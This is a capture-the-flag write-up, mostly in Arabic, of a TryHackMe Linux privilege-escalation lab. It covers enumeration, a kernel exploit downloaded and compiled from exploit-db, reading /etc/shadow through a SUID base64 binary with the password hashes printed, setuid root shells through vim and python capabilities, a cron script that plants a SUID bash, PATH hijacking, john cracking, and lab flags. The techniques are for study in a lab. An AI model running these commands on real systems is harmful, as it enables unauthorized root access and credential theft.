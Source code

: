 # Linux Privilege Escalation

![image](https://github.com/user-attachments/assets/7d5663ba-af28-421d-823d-67a0c93c8b7f)

<details>
  <summary>Enumeration</summary>


```
Username: karen

Password: Password1
```

  

## 1. Basic Info (معلومات عامة عن النظام)

| أمر        | وظيفته                                                    |
| ---------- | --------------------------------------------------------- |
| `whoami`   | يعرفك اسم المستخدم اللي انت عليه حاليًا                   |
| `id`       | يوضح الـ UID/GID والصلاحيات المرتبطة بيك                  |
| `hostname` | اسم الجهاز – أحيانًا مفيد لو الجهاز له اسم يدل على وظيفته |
| `uname -a` | إصدار الكرنل + المعمارية (x86\_64 أو غيره)                |

![image](https://github.com/user-attachments/assets/6363ac11-bf41-4ae1-9b7d-b9c42e67e1fc)


---

## 2. OS Version & Kernel

| أمر                   | وظيفته                                                                        |
| --------------------- | ----------------------------------------------------------------------------- |
| `cat /etc/issue`      | يطبع اسم وتفاصيل الـ Linux distro (مثلاً Ubuntu 20.04)                        |
| `cat /etc/os-release` | ملف رسمي فيه اسم النسخة + ID + Version                                        |
| `cat /proc/version`   | معلومات عن الكرنل + إذا كان GCC موجود (مهم لو عايز تـ compile local exploits) |



---

## 3. Environment

| أمر          | وظيفته                                                                                            |
| ------------ | ------------------------------------------------------------------------------------------------- |
| `env`        | يطبع كل المتغيرات البيئية، ممكن تلاقي فيها tokens أو مسارات غريبة                                 |
| `echo $PATH` | بيعرفك المسارات اللي النظام بيشوف فيها الملفات القابلة للتنفيذ – مهم جدًا لو فيه مسار قابل للحقن! |


![image](https://github.com/user-attachments/assets/aab5ff77-0ab8-4a6a-b7c5-db330f0e8a2f)

---

## 4. Users and Groups

| أمر               | وظيفته                                                                 |
| ----------------- | ---------------------------------------------------------------------- |
| `cat /etc/passwd` | يطبع كل المستخدمين الموجودين على النظام                                |
| `cat /etc/group`  | يشوف المجموعات اللي موجودة واللي ممكن تكون حساسة (مثلاً: docker، sudo) |

![image](https://github.com/user-attachments/assets/7b0e7204-dc60-4b97-981c-040c90fd6ccf)

![image](https://github.com/user-attachments/assets/ed5096cb-2831-45c1-a506-52bf1271e7f2)


---


## 5. Crontab / Scheduled Jobs

| أمر                 | وظيفته                                                                    |
| ------------------- | ------------------------------------------------------------------------- |
| `crontab -l`        | المهام المجدولة للمستخدم الحالي                                           |
| `ls -la /etc/cron*` | يشوف كل ملفات الـ crontab في النظام – أحيانًا تلاقي سكريبت بيتنفذ بـ root |
| `cat /etc/crontab`  | المهام المجدولة للنظام ككل – ممكن تديك وسيلة للاستغلال                    |



---

## 6. Processes & Services

| أمر                             | وظيفته                                                                   |
| ------------------------------- | ------------------------------------------------------------------------ |
| `ps aux`                        | يعرض كل العمليات الجارية – ممكن تلاقي برنامج بيشغله root                 |
| `top` أو `htop`                 | مشاهدة تفاعلية للعمليات                                                  |
| `netstat -tulnp` أو `ss -tulnp` | الخدمات اللي شغالة على البورتات – ممكن تلاقي حاجة داخليًا بس (localhost) |


![image](https://github.com/user-attachments/assets/16f4a91d-8133-481a-b79a-eb75ecbcb0f5)


![image](https://github.com/user-attachments/assets/e919e12d-1c12-405b-81cc-2d4a55b83133)
![image](https://github.com/user-attachments/assets/ec996032-2bf8-411f-8b80-590ed7b4e971)

![image](https://github.com/user-attachments/assets/03193a5c-21cf-4abe-b00a-616bb3e026f8)

![image](https://github.com/user-attachments/assets/a8f6abd4-62c9-4fe1-a78d-942b6929c021)

---

## 7. File System Permissions

| أمر                                     | وظيفته                                                                   |
| --------------------------------------- | ------------------------------------------------------------------------ |
| `find / -perm -4000 2>/dev/null`        | يبحث عن ملفات SUID – ملفات بتشتغل بصلاحيات المالك، ممكن تديك root access |
| `find / -perm -u=s -type f 2>/dev/null` | بديل للبحث عن SUID executables                                           |
| `find / -writable -type d 2>/dev/null`  | مجلدات قابلة للكتابة – ممكن تعمل فيها استغلال                            |


![image](https://github.com/user-attachments/assets/5c13b75e-a6c9-4e51-aa7d-0702d534d47c)

![image](https://github.com/user-attachments/assets/fde332e2-f181-44c0-b326-8f0c9150e57a)

![image](https://github.com/user-attachments/assets/4a89aa31-9be3-4e87-85df-0d1ec5ad4710)



---







## ✅ ملخص سريع :

| المحور           | الهدف                                         |
| ---------------- | --------------------------------------------- |
| OS & Kernel Info | تشوف لو في ثغرات على النسخة دي                |
| Environment      | PATH وقيم مهمة ممكن تسبب استغلال              |
| Users & Groups   | هل انت في مجموعة حساسة؟                       |
| Cron Jobs        | هل في سكريبت بيشتغل بوقت محدد ممكن تعدله؟     |
| Processes        | هل في برامج بتشتغل بصلاحيات أعلى؟             |
| SUID Files       | ممكن تستغل ملف بـ SUID عشان تاخد صلاحيات أعلى |






---
---





![image](https://github.com/user-attachments/assets/b8d06c67-4553-4990-ad30-9034da8eaf34)






  
</details>


















<details>
  <summary>Automated Enumeration Tools</summary>

# 🔐 Linux Privilege Escalation Enumeration Tools

قائمة بأهم الأدوات المفتوحة المصدر التي تُستخدم لتجميع معلومات النظام (Enumeration) من أجل اكتشاف فرص للترقية إلى صلاحيات أعلى (Root).

---

## 🥇 1. [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

- 🔎 من أقوى الأدوات الآلية لتجميع كل شيء تقريبًا.
- تبحث عن:
  - صلاحيات خاطئة في الملفات
  - SUID/SGID binaries
  - ملفات cron
  - كلمات مرور مكشوفة
  - خدمات مشغلة بصلاحيات عالية
- 🧠 تحتوي على خوارزميات للكشف عن misconfigurations والفرص الواضحة للاستغلال.
- ✅ مناسبة للأنظمة الحديثة والمتنوعة.

---

## 🥈 2. [LinEnum](https://github.com/rebootuser/LinEnum)

- 📜 سكربت Bash تقليدي لكن شامل.
- يقوم بجمع معلومات مثل:
  - بيانات النظام والمستخدم
  - cron jobs
  - network config
  - ملفات SUID/SGID
- 💡 أقل تفاعلية من LinPEAS، لكنه خفيف وسهل التشغيل.
- مفيد في حالات محدودة الموارد.

---

## 🥉 3. [LES - Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

- 🔍 يحلل إصدار الكرنل ويقترح عليك Exploits معروفة.
- مش بيعمل Enumeration كامل، لكنه:
  - يقارن الكرنل الحالي بقاعدة بيانات فيها Exploits قديمة
  - يعطيك توصيات مباشرة
- مناسب بعد معرفة إصدار الكرنل من `uname -a`.

---

## 4. [Linux Smart Enumeration (LSE)](https://github.com/diego-treitos/linux-smart-enumeration)

- 🧠 أداة ذكية تعمل بـ 3 أوضاع:
  - Quick
  - Standard
  - Thorough
- تعرض النتائج بتنسيق واضح وسهل الفهم.
- مصممة لتكون "هادئة" – لا تترك أثر واضح في النظام.
- مفيدة للاختبارات الهادئة (Low OPSEC).

---

## 5. [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

- 📘 سكربت Python قديم نسبيًا لكنه مفيد.
- يعطيك ملخص لبيئة التشغيل، الصلاحيات، الملفات الغريبة.
- مناسب مع الأنظمة القديمة أو أنظمة Python-only.

---

## 🧰 ملاحظات عامة:

| أداة | نوعها | الأفضل لـ |
|------|--------|------------|
| LinPEAS | شامل + ذكي | اكتشاف فرص متعددة + تحليل شامل |
| LinEnum | بسيط + مباشر | بيئة محدودة أو سكربت سريع |
| LES | اقتراح Exploits فقط | بعد معرفة kernel |
| LSE | ذكي + منظم | الاختبارات الدقيقة بدون ضوضاء |
| LinuxPrivChecker | خفيف + Python | بيئات قديمة أو محدودة |

---

> 💡 **نصيحة:** الأفضل دائمًا تبدأ بـ LinPEAS أو LSE، وبعد كده تستخدم LES لو فيه فرصة لاستغلال الكرنل.


  
</details>

























<details>
  <summary>Privilege Escalation: Kernel Exploits</summary>


# 🚀 Linux Privilege Escalation – Kernel Exploits

## 🎯 الهدف
استغلال ثغرات في نواة النظام (Kernel) للترقية من مستخدم عادي إلى root.

---

## 🧾 1. تحديد إصدار الكرنل

```bash
uname -r
```

مثال إخراج:
```
3.13.0-24-generic
```

---

## 🔍 2. البحث عن ثغرات مناسبة

### أدوات مساعدة:
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Exploit-DB](https://www.exploit-db.com)
- `searchsploit` (لو مثبت عندك)

### مثال باستخدام LES:
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

---

## 🛠️ 3. تجربة Exploit

### خطوات عامة:

1. تحميل الكود:
```bash
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```

2. تجميع (Compile):
```bash
gcc exploit.c -o exploit
```

3. تشغيل:
```bash
./exploit
```

4. التحقق من الصلاحيات:
```bash
whoami
id
```

---

## ⚠️ ملاحظات مهمة

| نقطة | توضيح |
|------|--------|
| ❗ Compiler (مثل gcc) لازم يكون متاح | لو مش موجود، compile من جهازك وانقل الملف |
| ⚙️ بعض الثغرات مش بتشتغل دايمًا | جرب أكثر من exploit |
| 📛 Kernel Exploits خطيرة | ممكن تسبب system crash أو shell غير مستقرة |
| 🧠 استخدم Virtual Machine أو اختبار فقط | لتفادي تلف النظام |

---

## ✅ خطوات التلخيص

| الخطوة | الأداة |
|--------|--------|
| تحديد إصدار الكرنل | `uname -r` |
| اقتراح ثغرات | LES، Exploit-DB، searchsploit |
| تحميل واستغلال | `wget`, `gcc`, `./exploit` |
| التأكد من النجاح | `whoami`, `id` |

---

> 💡 **نصيحة:** دائمًا احتفظ بمجموعة Exploits جاهزة، واختبرها في بيئة آمنة فقط.





---
---

![image](https://github.com/user-attachments/assets/390d0b3e-a279-4b22-bfd2-df265e05b60e)

![image](https://github.com/user-attachments/assets/3945f3af-cdf2-4342-9412-7dc108059dd7)

```
cd /tmp
wget https://www.exploit-db.com/raw/37292 -O exploit.c
```

```
gcc exploit.c -o exploit
./exploit
```

![image](https://github.com/user-attachments/assets/30b5b5b8-31da-4537-b1cc-626f6dc91fca)


```
THM-28392872729920
```


  
</details>











<details>
  <summary>Privilege Escalation: Sudo</summary>



![image](https://github.com/user-attachments/assets/c9d1a10a-e3ae-4ac8-8640-3ca05260682b)


![image](https://github.com/user-attachments/assets/6fd0efaf-d307-409a-b924-24b7c0ac4202)


```
sudo nano /etc/shadow
```

![image](https://github.com/user-attachments/assets/1cba0943-d5e7-4d27-a43c-070ddf5c5eb1)






  
</details>






<details>
  <summary>Privilege Escalation: SUID</summary>


list files that have SUID or SGID 

```
find / -type f -perm -04000 -ls 2>/dev/null
```

```ruby
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
      116     27 -rwsr-xr-x   1 root     root        27608 Jan 27  2020 /snap/core/10185/bin/umount
     2610     71 -rwsr-xr-x   1 root     root        71824 Mar 25  2019 /snap/core/10185/usr/bin/chfn
     2612     40 -rwsr-xr-x   1 root     root        40432 Mar 25  2019 /snap/core/10185/usr/bin/chsh
     2689     74 -rwsr-xr-x   1 root     root        75304 Mar 25  2019 /snap/core/10185/usr/bin/gpasswd
     2781     39 -rwsr-xr-x   1 root     root        39904 Mar 25  2019 /snap/core/10185/usr/bin/newgrp
     2794     53 -rwsr-xr-x   1 root     root        54256 Mar 25  2019 /snap/core/10185/usr/bin/passwd
     2904    134 -rwsr-xr-x   1 root     root       136808 Jan 31  2020 /snap/core/10185/usr/bin/sudo
     3003     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core/10185/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3375    419 -rwsr-xr-x   1 root     root              428240 May 26  2020 /snap/core/10185/usr/lib/openssh/ssh-keysign
     6437    109 -rwsr-xr-x   1 root     root              110792 Oct  8  2020 /snap/core/10185/usr/lib/snapd/snap-confine
     7615    386 -rwsr-xr--   1 root     dip               394984 Jul 23  2020 /snap/core/10185/usr/sbin/pppd
       56     43 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /snap/core18/1885/bin/mount
       65     63 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /snap/core18/1885/bin/ping
       81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/1885/bin/su
       99     27 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /snap/core18/1885/bin/umount
     1698     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/1885/usr/bin/chfn
     1700     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/1885/usr/bin/chsh
     1752     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/1885/usr/bin/gpasswd
     1816     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/1885/usr/bin/newgrp
     1828     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/1885/usr/bin/passwd
     1919    146 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /snap/core18/1885/usr/bin/sudo
     2006     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2314    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/1885/usr/lib/openssh/ssh-keysign
     7477     52 -rwsr-xr--   1 root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13816    464 -rwsr-xr-x   1 root     root              473576 May 29  2020 /usr/lib/openssh/ssh-keysign
    13661     24 -rwsr-xr-x   1 root     root               22840 Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7479     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    13676    128 -rwsr-xr-x   1 root     root              130152 Oct  8  2020 /usr/lib/snapd/snap-confine
     1856     84 -rwsr-xr-x   1 root     root               85064 May 28  2020 /usr/bin/chfn
     2300     32 -rwsr-xr-x   1 root     root               31032 Aug 16  2019 /usr/bin/pkexec
     1816    164 -rwsr-xr-x   1 root     root              166056 Jul 15  2020 /usr/bin/sudo
     1634     40 -rwsr-xr-x   1 root     root               39144 Jul 21  2020 /usr/bin/umount
     1860     68 -rwsr-xr-x   1 root     root               68208 May 28  2020 /usr/bin/passwd
     1859     88 -rwsr-xr-x   1 root     root               88464 May 28  2020 /usr/bin/gpasswd
     1507     44 -rwsr-xr-x   1 root     root               44784 May 28  2020 /usr/bin/newgrp
     1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
     1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
```


```css
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
```

![image](https://github.com/user-attachments/assets/bf1a3ca9-f1c0-48b9-aff8-beefdd03286a)


```
LFILE=/etc/shadow
```

now read the file:


```
/usr/bin/base64 "$LFILE"
```

``output``

```
cm9vdDoqOjE4NTYxOjA6OTk5OTk6Nzo6OgpkYWVtb246KjoxODU2MTowOjk5OTk5Ojc6OjoKYmlu
Oio6MTg1NjE6MDo5OTk5OTo3Ojo6CnN5czoqOjE4NTYxOjA6OTk5OTk6Nzo6OgpzeW5jOio6MTg1
NjE6MDo5OTk5OTo3Ojo6CmdhbWVzOio6MTg1NjE6MDo5OTk5OTo3Ojo6Cm1hbjoqOjE4NTYxOjA6
OTk5OTk6Nzo6OgpscDoqOjE4NTYxOjA6OTk5OTk6Nzo6OgptYWlsOio6MTg1NjE6MDo5OTk5OTo3
Ojo6Cm5ld3M6KjoxODU2MTowOjk5OTk5Ojc6OjoKdXVjcDoqOjE4NTYxOjA6OTk5OTk6Nzo6Ogpw
cm94eToqOjE4NTYxOjA6OTk5OTk6Nzo6Ogp3d3ctZGF0YToqOjE4NTYxOjA6OTk5OTk6Nzo6Ogpi
YWNrdXA6KjoxODU2MTowOjk5OTk5Ojc6OjoKbGlzdDoqOjE4NTYxOjA6OTk5OTk6Nzo6OgppcmM6
KjoxODU2MTowOjk5OTk5Ojc6OjoKZ25hdHM6KjoxODU2MTowOjk5OTk5Ojc6OjoKbm9ib2R5Oio6
MTg1NjE6MDo5OTk5OTo3Ojo6CnN5c3RlbWQtbmV0d29yazoqOjE4NTYxOjA6OTk5OTk6Nzo6Ogpz
eXN0ZW1kLXJlc29sdmU6KjoxODU2MTowOjk5OTk5Ojc6OjoKc3lzdGVtZC10aW1lc3luYzoqOjE4
NTYxOjA6OTk5OTk6Nzo6OgptZXNzYWdlYnVzOio6MTg1NjE6MDo5OTk5OTo3Ojo6CnN5c2xvZzoq
OjE4NTYxOjA6OTk5OTk6Nzo6OgpfYXB0Oio6MTg1NjE6MDo5OTk5OTo3Ojo6CnRzczoqOjE4NTYx
OjA6OTk5OTk6Nzo6Ogp1dWlkZDoqOjE4NTYxOjA6OTk5OTk6Nzo6Ogp0Y3BkdW1wOio6MTg1NjE6
MDo5OTk5OTo3Ojo6CnNzaGQ6KjoxODU2MTowOjk5OTk5Ojc6OjoKbGFuZHNjYXBlOio6MTg1NjE6
MDo5OTk5OTo3Ojo6CnBvbGxpbmF0ZToqOjE4NTYxOjA6OTk5OTk6Nzo6OgplYzItaW5zdGFuY2Ut
Y29ubmVjdDohOjE4NTYxOjA6OTk5OTk6Nzo6OgpzeXN0ZW1kLWNvcmVkdW1wOiEhOjE4Nzk2Ojo6
Ojo6CnVidW50dTohOjE4Nzk2OjA6OTk5OTk6Nzo6OgpnZXJyeWNvbndheTokNiR2Z3pneE0zeWJU
bEIud2tWJDQ4WURZN3FRbnA0cHVyT0oxOW14Zk1Pd0t0LkgyTGFXS1B1MHpLbFdLYVVNRzFON3dl
Vnpxb2JwNjVSeGxNSVovTmlyeGVaZE9KTUVPcDNvZkUuUlQvOjE4Nzk2OjA6OTk5OTk6Nzo6Ogp1
c2VyMjokNiRtNlZtektUYnpDRC8uSTEwJGNLT3ZaWjgvcnNZd0hkLnBFMDk5WlJ3TTY4NnAvRXAx
M2g3cEZNQkNHNHQ3SXVrUnFjL2ZYbEExZ0hYaDlGMkNid21ENEVwaTFXZ2guQ2wuVlYxbWIvOjE4
Nzk2OjA6OTk5OTk6Nzo6OgpseGQ6IToxODc5Njo6Ojo6OgprYXJlbjokNiRWamNyS3ovNlM4cmhW
NEk3JHlib1RiME1FeHFwTVhXMGhqRUpncUxXcy9qR1BKQTdOL2ZFb1BNdVlMWTF3MTZGd0w3RUND
YlFXSnFZTEdweS5ac2NuYTlHSUxDU2FOTEpkQlAxcDgvOjE4Nzk2OjA6OTk5OTk6Nzo6Ogo=
```

it return ``/etc/shadow`` but encoded 

```
/usr/bin/base64 "$LFILE" | base64 --decode
```

`output`

```
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
```

``user2`` hash

```
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/
```

![image](https://github.com/user-attachments/assets/20bd2e82-a055-4cb4-ba9c-70dad84c7076)

using same way to read ``flag3.txt``

```
LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```

![image](https://github.com/user-attachments/assets/284627cd-cc2d-483b-8f0d-f3c420f4b2a7)

```
THM-3847834
```

  
</details>






<details>
  <summary>Privilege Escalation: Capabilities</summary>


# 🔐 Linux Capabilities & Privilege Escalation

## 🧠 ما هي Linux Capabilities؟

في أنظمة لينكس الحديثة، يمكن منح **صلاحيات جزئية** للبرامج بدون الحاجة لتشغيلها بصلاحيات `root`.  
هذه الصلاحيات تُعرف باسم: **Capabilities**

مثال:
- `cap_net_raw` → يسمح بفتح raw sockets (مفيد لأدوات الشبكة)
- `cap_dac_read_search` → يسمح بقراءة ملفات بدون صلاحية قراءة

---

## 🎯 الهدف في الـ Privilege Escalation

نبحث عن برامج تمتلك Capabilities قوية يمكن استغلالها للوصول إلى صلاحيات `root`.

---

## 🔍 كيف نبحث عن الملفات ذات Capabilities؟

استخدم الأمر التالي من مستخدم عادي:

```bash
getcap -r / 2>/dev/null
```

- `-r /` → يبحث بشكل تكراري في كل النظام
- `2>/dev/null` → يتجاهل رسائل الخطأ

---

## 💡 ملاحظات هامة:

| النوع         | أداة الكشف        |
|--------------|------------------|
| SUID         | `find`           |
| Capabilities | `getcap`         |

> Capabilities لا تظهر في فحص الـ SUID، لذلك تحتاج لفحص خاص.

---

## 🧰 GTFObins — أداة ممتازة للاستغلال

موقع GTFObins يحتوي على قائمة ببرامج يمكن استغلالها:

🔗 [https://gtfobins.github.io](https://gtfobins.github.io)

ابحث عن أي برنامج (مثل `vim`, `perl`, `python`, `tar`) وتحقق إذا كان له استغلال تحت قسم **Capabilities**.

---

## 🧪 مثال عملي: استغلال vim بوجود Capability

### 1. تحقق من وجود capability على vim:

```bash
/usr/bin/vim = cap_setuid+ep
```

### 2. شغّل vim مع أمر تنفيذ داخلي:

```bash
vim -c ':!sh'
```

### 3. تحقق من الصلاحيات:

```bash
id
# uid=0(root) gid=0(root)
```

✅ مبروك! حصلت على shell بصلاحيات root.

---

## ✅ ملخص سريع

| العنصر              | الشرح |
|---------------------|-------|
| Capabilities         | صلاحيات جزئية تُمنح للبرامج بدلاً من root الكامل |
| getcap               | أداة لفحص البرامج ذات Capabilities |
| استغلال capabilities | إذا كان البرنامج يملك capability قوية، يمكن تشغيله والحصول على صلاحيات أعلى |
| GTFObins             | موقع يعرض طرق استغلال البرامج المعروفة |

---

## 🔚 الخطوة التالية

- شغّل:
```bash
getcap -r / 2>/dev/null
```

- ثم راجع النتائج وأرسل البرامج هنا لتحليل فرص التصعيد 🚀






## 🟥 Capabilities خطيرة جدًا:

| Capability            | خطورتها                                         |
| --------------------- | ----------------------------------------------- |
| `cap_setuid`          | تغيير UID (يعني ممكن يشغّل نفسه كـ root) 😈     |
| `cap_sys_admin`       | شبه صلاحيات root، كنز حقيقي 💣                  |
| `cap_dac_override`    | يتجاوز صلاحيات الملفات، ممكن يقرأ/يكتب أي ملف   |
| `cap_dac_read_search` | يقرأ أي ملف حتى لو مالكوش صلاحية عليه           |
| `cap_fowner`          | يقدر يعدل على ملفات مش بتاعته                   |
| `cap_net_raw`         | يستخدم RAW sockets، ممكن sniff أو spoof الشبكة  |
| `cap_sys_ptrace`      | ممكن يعمل Debug على عمليات تانية (وسرقة بيانات) |



## 🟡 Capabilities متوسطة الخطورة:


| Capability             | ملاحظات                                                |
| ---------------------- | ------------------------------------------------------ |
| `cap_net_bind_service` | يفتح بورت أقل من 1024 (ممكن استخدامه لتصعيد داخل خدمة) |
| `cap_chown`            | يغير مالك الملفات — مفيد في بعض السيناريوهات           |
| `cap_kill`             | يقتل أي عملية — ممكن يستخدم لإيقاف الحماية أو الخدمات  |


## 🧪 مثال عملي:

```
/usr/bin/python3.8 = cap_setuid+ep
```

ده معناه إن ``python3.8`` يقدر يغير الـ UID ويشتغل كـ root
لو شغلته كده:

```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

لو نجحت، هيجيلك شيل بصلاحيات root مباشرة 💥


## 🧠 مصادر تعرفك خطورة أي capability:
🔗 [man 7 capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)

🔍 موقع GTFObins: ابحث عن اسم البرنامج وشوف لو له استغلال تحت Capabilities

🔐 أداة linpeas.sh ``→`` تعرضلك البرامج ``+`` capabilities ``+`` تقييم خطورتها




---
----


```
getcap -r / 2>/dev/null
```

![image](https://github.com/user-attachments/assets/8bcf831c-bd12-43da-be58-2f215effb02b)

```
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash","sh","-c","reset; exec sh")'
```

| الجزء              | المعنى                                      |
| ------------------ | ------------------------------------------- |
| `vim -c`           | شغّل vim ونفّذ أمر مباشرة                   |
| `:py3 ...`         | نفّذ كود بايثون 3 داخل vim                  |
| `import os`        | استورد مكتبة التعامل مع النظام              |
| `os.setuid(0)`     | غير الـ UID للمستخدم رقم 0 (يعني `root`) 🔥 |
| `os.execl(...)`    | شغّل شيل جديد (`/bin/bash`) كأنك root       |
| `"reset; exec sh"` | يعمل reset للشاشة ويفتح sh shell            |




![image](https://github.com/user-attachments/assets/65526dad-54e1-4e20-95c2-8b06fd91067d)

```
THM-9349843
```
  
</details>









<details>
  <summary>Privilege Escalation: Cron Jobs</summary>


```
cat /etc/crontab
```

![image](https://github.com/user-attachments/assets/b9c23b11-4516-4fd0-ad54-8c77db861036)


```
nano backup.sh
```

```
#!/bin/bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```

```
chmod +x backup.sh
```

```
/tmp/rootsh -p
```

![image](https://github.com/user-attachments/assets/003a55fc-b84a-4eb2-8118-0ca7253af35f)

![image](https://github.com/user-attachments/assets/514ce262-1ca7-454e-a106-c926d5843323)


```
THM-383000283
```


![image](https://github.com/user-attachments/assets/8611b0c9-fc32-46ed-9e5e-71b6c0794298)


```
john cron_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/609fc90b-4ab4-4ef6-aae5-25a115d14ba3)


  
</details>








<details>
  <summary>Privilege Escalation: PATH</summary>

# 🛡️ Privilege Escalation via `$PATH` Hijacking

## 📌 ما هو `$PATH`؟

`$PATH` هو متغير بيئي (Environment Variable) يحتوي على قائمة من المسارات (directories)، اللي النظام بيدور فيها على الأوامر اللي بتكتبها في الطرفية (Terminal).

### ✅ مثال:

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

لما تكتب:

```bash
$ thm
```

النظام بيدور على ملف تنفيذي اسمه `thm` في المسارات دي بالترتيب.

---

## 🎯 كيف نستغل `$PATH` لتصعيد الصلاحيات؟

لو فيه سكربت أو برنامج بيشتغل بصلاحيات `root` (مثلاً عليه SUID)، وبيستدعي أمر داخله زي `thm` بدون المسار الكامل:

```bash
thm
```

ممكن نستغل ده عن طريق إنشاء ملف بنفس اسم الأمر `thm` ونحطه في مجلد قابل للكتابة، ونضيف المجلد ده في بداية `$PATH`. لما السكربت يشتغل، هيشغل نسختنا إحنا بدل الأمر الحقيقي!

---

## ⚙️ خطوات الاستغلال العملي

### 🧪 السيناريو:

نفترض وجود برنامج باسم `path` فيه الكود التالي:

```bash
#!/bin/bash
thm
```

وتم إعطاءه صلاحية SUID:

```bash
$ chmod u+s path
```

### 🔍 الخطوة 1: معرفة المجلدات القابلة للكتابة

نفذ الأمر التالي:

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

هتلاحظ أن `/tmp` عادةً بيكون قابل للكتابة.

### 🔧 الخطوة 2: تعديل `$PATH`

```bash
export PATH=/tmp:$PATH
```

### 🧨 الخطوة 3: إنشاء نسخة مزيفة من `thm`

```bash
cp /bin/bash /tmp/thm
chmod +x /tmp/thm
```

### 🚀 الخطوة 4: تشغيل برنامج `path`

```bash
./path
```

### ✅ الآن داخل الشيل:

```bash
id
whoami
```

هيظهر:

```
uid=0(root) gid=0(root)
```

---

## 💡 ملاحظات هامة:

* لا تنجح هذه الطريقة إلا إذا كان السكربت لا يحدد المسار الكامل للأمر.
